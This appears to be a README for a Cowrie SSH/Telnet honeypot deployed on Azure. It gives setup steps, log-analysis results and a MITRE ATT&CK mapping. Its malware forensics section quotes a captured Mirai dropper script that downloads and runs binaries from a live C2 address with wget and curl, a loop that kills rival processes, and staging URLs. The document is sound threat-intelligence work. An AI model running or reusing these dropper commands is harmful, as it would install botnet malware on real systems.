





# 🛡️ CyberTrap: Production SSH/Telnet Honeypot & Threat Intelligence Analysis

[](https://ubuntu.com/)
[](https://azure.microsoft.com/)
[](https://github.com/cowrie/cowrie)
[](https://www.python.org/)
[](https://pandas.pydata.org/)
[](https://attack.mitre.org/)

A production-grade threat intelligence and deception project. A medium-interaction **Cowrie SSH/Telnet honeypot** was deployed on an exposed cloud virtual machine (Microsoft Azure) to capture, record, and analyze real-world automated botnet attacks, brute-force scans, and dropped malware payloads from the public internet.

Telemetry data was ingested and analyzed using custom **Python and Pandas** pipelines, with **GeoIP and ASN enrichment** to map global threat infrastructure and attacker TTPs to the **MITRE ATT&CK Framework**.

---

## 📌 Executive Summary (16-Hour Cloud Exposure)

Within a **16-hour monitoring window** on an exposed public IPv4 address (`20.164.216.21`), the honeypot captured:

- **19,091 total security events**
- **146 unique threat actors (IPs)** across **1,696 discrete interactive sessions**
- **Top Attacker:** A single host (`109.160.32.109`) launched **7,611 consecutive brute-force connection attempts**
- **Captured Real-World Malware:** Intercepted automated multi-architecture **Mirai botnet droppers** and compiled **64-bit ELF malware binaries** attempting to execute on the emulated system

---

## 🏗️ Project Architecture

```
┌───────────────────────────────────────────────────────────────┐
│                 Public Internet Threat Actors                 │
│         (Automated Botnets, Scanners, Brute-Force Sprayers)   │
└───────────────────────────────┬───────────────────────────────┘
                                │ Standard Ports: TCP 22 & 23
                                ▼
┌───────────────────────────────────────────────────────────────┐
│               Microsoft Azure Virtual Machine                 │
│                 Ubuntu Server 24.04 LTS (x64)                 │
│                                                               │
│   ┌───────────────────────────────────────────────────────┐   │
│   │ Network Layer: iptables NAT PREROUTING                │   │
│   │   • External Port 22  ──────► Internal Port 2222     │   │
│   │   • External Port 23  ──────► Internal Port 2223     │   │
│   │                                                       │   │
│   │ Real OpenSSH Management:                              │   │
│   │   • Port 22222 (Ed25519 Key-Only Auth, No Root)       │   │
│   └───────────────────────────┬───────────────────────────┘   │
│                               │                               │
│                               ▼                               │
│   ┌───────────────────────────────────────────────────────┐   │
│   │ Cowrie Medium-Interaction Honeypot (user: cowrie)     │   │
│   │   • Fake Linux Shell Environment (hostname: Pegasus)   │   │
│   │   • Authentication Trap (userdb.txt)                  │   │
│   │   • Session Logging & Keystroke Recording (TTY logs)  │   │
│   │   • Malware Artifact Trapping (var/lib/cowrie/down...)│   │
│   └───────────────────────────┬───────────────────────────┘   │
└───────────────────────────────┼───────────────────────────────┘
                                │ cowrie.json (14.3 MB structured logs)
                                ▼
┌───────────────────────────────────────────────────────────────┐
│          Offline Data Pipeline & Threat Intelligence          │
│               Python 3 + Pandas + GeoIP Engine                │
│                                                               │
│   • Credential Frequency & Spraying Analysis                  │
│   • Threat Actor ASN & Geographical Origin Mapping            │
│   • Post-Exploitation Command & TTP Profiling                 │
│   • Malware SHA-256 Extraction & C2 Server Identification     │
└───────────────────────────────────────────────────────────────┘
```

---

## 📊 Threat Intelligence Visualizations

Generated directly from our custom Python/Pandas telemetry processing pipeline:

### 1. Geographical Distribution of Attacks
The vast majority of attacks originated from cloud/hosting infrastructure in **The Netherlands (40.9%)**, **United States (19.3%)**, **South Korea (18.7%)**, and **Andorra (10.0%)**.



### 2. Top Threat Actors (Source IPs)
A small number of automated botnet nodes generated the vast majority of telemetry volume, led by `109.160.32.109` (7,611 requests) and `221.153.81.149` (2,773 requests).



### 3. Attack Activity Timeline (Hourly Spikes)
Attack activity followed distinct automated burst cycles, peaking at over **2,500 events per hour** during overnight reconnaissance and credential-stuffing sweeps.



### 4. Credential Targeting: Usernames & Passwords
Bots heavily targeted predictable system accounts, with `root` (899 attempts) and `admin` (202 attempts) accounting for over 90% of all attempts. The single most common password tested was `admin` (173 attempts).

| Top Targeted Usernames | Top Attempted Passwords |
|:---:|:---:|
|  |  |

---

## 🔬 Post-Exploitation Activity & Malware Forensics

Once bots authenticated into the fake shell, they immediately attempted automated post-exploitation tasks:

### 1. Architectural Fingerprinting
```bash
uname -s -v -n -r -m
/bin/busybox HISILICON
```
*Purpose:* Determines kernel release and specifically checks whether the victim system is an embedded video surveillance / IoT device running HiSilicon chipsets.

### 2. Rival Botnet Eradication (Process Killing)
```bash
for proc_dir in /proc/*; do
    pid=${proc_dir##*/}
    result=$(ls -l "/proc/$pid/exe" 2> /dev/null)
    if [ "$result" != "${result%(deleted)}" ]; then
        kill -9 "$pid"
    fi
done
```
*Purpose:* Enumerates running processes where the on-disk binary has been unlinked/deleted (a common stealth tactic used by cryptominers and competing Mirai variants) and terminates them with `kill -9` to seize full hardware resources.

### 3. Captured Malware Artifacts (Mirai Botnet Family)
Cowrie intercepted multiple dropped payloads staged on remote command-and-control (C2) infrastructure:

| Artifact Name | SHA-256 Hash | File Details | Staging URL / Source |
|---|---|---|---|
| `kla.sh` | `39be6853a8204ce6455a373a6ffb4cb4672d4a62d90be69f7d6eeb66cda10b96` | POSIX shell script (Multi-arch downloader) | `http://160.119.66.206/bins/kla.sh` |
| `net.x86_64` | `3674a103804cac96027fe1cf62aaab4948c1d547d1c885542177a263103b4260` | ELF 64-bit LSB executable, x86-64, statically linked, stripped (189 KB) | `http://160.119.66.206/bins/net.x86_64` |
| Direct Ingress Payload | `22c26ebf279faf93bc41635e6e9e5ef260d4f82ee46a5ca45395b288866512d8` | Raw payload | Direct upload from `176.65.149.156` |

The dropper script (`kla.sh`) systematically iterates through CPU architectures to download cross-compiled payloads:
```bash
#!/bin/sh
cd /tmp || cd /var/run || cd /mnt || cd /root || cd /;
wget http://160.119.66.206/bins/net.x86_64 -O net_bot && chmod 777 net_bot && ./net_bot net.x86_64 && exit;
curl -L http://160.119.66.206/bins/net.x86_64 -o net_bot && chmod 777 net_bot && ./net_bot net.x86_64 && exit;
wget http://160.119.66.206/bins/net.mips -O net_bot && chmod 777 net_bot && ./net_bot net.mips && exit;
wget http://160.119.66.206/bins/net.arm -O net_bot && chmod 777 net_bot && ./net_bot net.arm && exit;
```

---

## 🎯 MITRE ATT&CK Mapping

| Tactic | Technique ID | Technique Name | Observed Evidence |
|---|---|---|---|
| **Initial Access / Credential Access** | **[T1110.001](https://attack.mitre.org/techniques/T1110/001/)** | Password Guessing | 1,600+ brute-force login attempts against default accounts (`root`, `admin`) |
| **Execution** | **[T1059.004](https://attack.mitre.org/techniques/T1059/004/)** | Unix Shell | Automated execution of commands via `sh` and `busybox` upon authentication |
| **Discovery** | **[T1082](https://attack.mitre.org/techniques/T1082/)** | System Information Discovery | Probing architecture via `uname -s -v -n -r -m` and `/proc/self/exe` |
| **Command and Control / Ingress** | **[T1105](https://attack.mitre.org/techniques/T1105/)** | Ingress Tool Transfer | Automated `wget` and `curl` retrieving payloads from remote IP `160.119.66.206` |
| **Defense Evasion** | **[T1070](https://attack.mitre.org/techniques/T1070/)** | Indicator Removal | Staging hidden directories in `/var/.f` and terminating rival botnet processes |

---

## 🛠️ Step-by-Step Implementation Guide

### Phase 1: Local Staging & Environment Setup (Ubuntu VM)

1. **System Preparation & Dependencies:**
   ```bash
   sudo apt update && sudo apt upgrade -y
   sudo apt-get install python3-pip python3-venv libssl-dev libffi-dev build-essential libpython3-dev python3-minimal authbind -y
   ```

2. **Create Isolated Service Account:**
   Cowrie must **never** run under `root`:
   ```bash
   sudo adduser --disabled-password --gecos "" cowrie
   sudo su - cowrie
   ```

3. **Install Cowrie into Virtual Environment:**
   ```bash
   mkdir ~/honeypot && cd ~/honeypot
   python3 -m venv cowrie-env
   source cowrie-env/bin/activate
   pip install --upgrade pip
   pip install cowrie
   cowrie init
   ```

4. **Configure Emulated Persona & Authentication Rules:**
   - In `etc/cowrie.cfg`:
     ```ini
     [honeypot]
     hostname = Pegasus
     #contents_path = /opt/cowrie/honeyfs

     [telnet]
     enabled = true
     ```
   - In `etc/userdb.txt` (Define authentication trap):
     ```text
     # Deny lazy guesses
     root:x:!root
     root:x:!admin

     # Allow entry on common credentials to trap post-exploitation activity
     root:x:123456
     root:x:password
     admin:x:admin

     # Catch-all wildcard
     *:x:*
     ```

5. **Start and Verify Local Service:**
   ```bash
   cowrie start
   cowrie status
   ss -tulpn | grep -E "2222|2223"
   ```

---

### Phase 2: Cloud Deployment on Microsoft Azure

To expose the sensor to real threat actors without risking private infrastructure:

1. **Virtual Machine Provisioning:**
   - **Platform:** Microsoft Azure Compute
   - **OS:** Ubuntu Server 24.04 LTS (x64)
   - **Size:** Standard `B2ls_v2` (2 vCPUs, 4 GiB RAM)
   - **Authentication:** Ed25519 SSH Public Key (`azureuser`)
   - **Public IP:** Assigned static public IPv4 (`20.164.216.21`)

2. **The Critical SSH Port Swap (Preventing Lockout):**
   Standard OpenSSH had to be relocated to port `22222` to free port `22` for the honeypot:
   - **Open Port 22222 in Azure Network Security Group (NSG):** Custom inbound TCP rule for port `22222`.
   - **Configure Ubuntu 24.04 `ssh.socket` Override:**
     ```bash
     sudo systemctl edit ssh.socket
     ```
     Drop-in configuration:
     ```ini
     [Socket]
     ListenStream=
     ListenStream=0.0.0.0:22222
     ```
   - **Reload and apply:**
     ```bash
     sudo systemctl daemon-reload
     sudo systemctl restart ssh.socket
     sudo systemctl restart ssh
     ```
   - **Verified with:** `ss -tulpn | grep 22222` and established a new session on port `22222` before disconnecting.

3. **Cowrie Installation on Cloud VM:**
   Repeated identical isolated setup under `/home/cowrie/honeypot` with hostname `Pegasus`.

4. **Kernel-Level Port Redirection (`iptables`):**
   Because Cowrie runs securely under an unprivileged user, `iptables` redirects external privileged ports down to Cowrie's listening ports:
   ```bash
   # Redirect incoming SSH (Port 22 -> 2222)
   sudo iptables -t nat -A PREROUTING -p tcp --dport 22 -j REDIRECT --to-port 2222

   # Redirect incoming Telnet (Port 23 -> 2223)
   sudo iptables -t nat -A PREROUTING -p tcp --dport 23 -j REDIRECT --to-port 2223

   # Persist rules across reboots
   sudo netfilter-persistent save
   ```

5. **Azure NSG Rule for Telnet:**
   Added an inbound security rule allowing destination port `23` (TCP).

---

### Phase 3: Telemetry Extraction & Data Analysis

1. **Log Extraction via Secure Copy Protocol (SCP):**
   ```powershell
   scp -P 22222 -i .\vm-cowrie_key.pem azureuser@20.164.216.21:/home/azureuser/cowrie.json .\analysis\cowrie.json
   ```

2. **Analysis Pipeline Execution:**
   The Python script parses lines, enriches IP addresses with country and ASN metadata via batch lookups, generates terminal metrics, and renders publication-ready charts:
   ```powershell
   cd analysis
   pip install pandas matplotlib
   python analyze_logs.py
   ```

---

## 📂 Repository Structure

```
honeypot-lab/
├── README.md                      # Comprehensive project documentation
├── cowrie.cfg                     # Production configuration file
├── docs/
│   └── threat-report.md           # Formal Threat Intelligence Report
├── screenshots/                   # Generated visualization charts
│   ├── top_attacking_countries.png
│   ├── top_attacking_ips.png
│   ├── attack_timeline.png
│   ├── top_usernames.png
│   └── top_passwords.png
└── analysis/
    ├── analyze_logs.py            # Python/Pandas analysis & GeoIP script
    ├── cowrie.json                # Raw sanitized JSON telemetry (19,000+ events)
    ├── geoip_cache.json           # Cached ASN and Country metadata
    ├── threat_summary.txt         # Text-based metric summary
    └── figures/                   # Original exported charts
```

---

## 🔒 Defensive Recommendations & Key Takeaways

1. **Disable Password Authentication on Internet-Facing SSH:** Over 99% of captured attacks relied strictly on password brute-forcing. Enforcing Ed25519 or RSA-4096 key-based authentication completely neutralizes these automated campaigns.
2. **Move Administrative Services to Non-Standard Ports:** Relocating management ports (e.g., port 22 to 22222) stops automated scanners that only target standard ports 22 and 23.
3. **Outbound Network Filtering on Edge Devices:** IoT devices and servers should have strict outbound firewall rules preventing `wget`/`curl` connections to unauthorized external IP addresses (preventing C2 payload drops).
4. **Implement Dynamic Host Protection:** Deploy host intrusion prevention tools (like Fail2ban or CrowdSec) to dynamically block IP addresses after 3–5 consecutive authentication failures.
